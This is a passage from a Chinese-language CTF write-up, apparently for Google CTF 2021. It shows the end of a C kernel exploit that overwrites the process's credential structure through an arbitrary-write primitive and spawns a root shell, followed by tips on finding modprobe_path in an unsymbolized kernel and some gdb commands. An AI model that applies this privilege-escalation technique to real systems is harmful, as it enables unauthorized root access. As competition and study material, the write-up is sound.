 ```c
            printf("upper: 0x%016lx, lower: 0x%016lx\n", upper, lower);
            cred_addr = (upper << 32) | lower;
            printf("[+] found cred_addr:\t0x%016lx\n", cred_addr);

            getc(stdin);
            for (int i = 0; i < 8; i++)
                aaw32(cred_addr + (i+1)*4, 0);
            getc(stdin);
            break;
        }
    }
    
    if (cred_addr == 0)
        perr("[-] bad luck"); 

    close(ctf_fd);
    puts("[+] Good job");
    system("/bin/bash");

    return 0;
}
```

P.S. 因為 kernel heap 的結構我們不太能好好掌控，因此在搜尋當前 process 的 `struct task_struct` 有滿高的機率會失敗，個人認為還是寫 `modprobe_path` 比較穩一點，不過就沒有其他方法這麼有趣。



如果要在沒有 symbol 的 kernel 找 `/sbin/modprobe` 的位置：

1. 用 [extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) 從 bzImage extract 出 vmlinux
2. `strings -n 14 -t x ./vmlinux > output` 得到長度 >= 14 字串的 offset，其中會有 `/sbin/modprobe`
3. `readelf -a ./vmlinux` 找 `.text` 的 offset
4. kernel_base + modprobe_offset_in_file - text_offset 即是 `modprobe_path` 的位址



gdb 當中有以下好用的命令，在做 exploit 時會很有幫助：

```
ptype struct tty_struct # print struct layout
ptype /o struct tty_struct # with offset
```



**Reference**

- https://ptr-yudai.hatenablog.com/entry/2021/07/26/225308
- https://balsn.tw/ctf_writeup/20210717-googlectf2021/#fullchain
- https://ret2.life/posts/Google-CTF-2021
  - 這篇的 sbx escape 打法跟其他隊伍不太一樣，用的是 memory allocation 相關的手法，如果想要更了解 PartitionAllocation 可以參考這篇 writeup
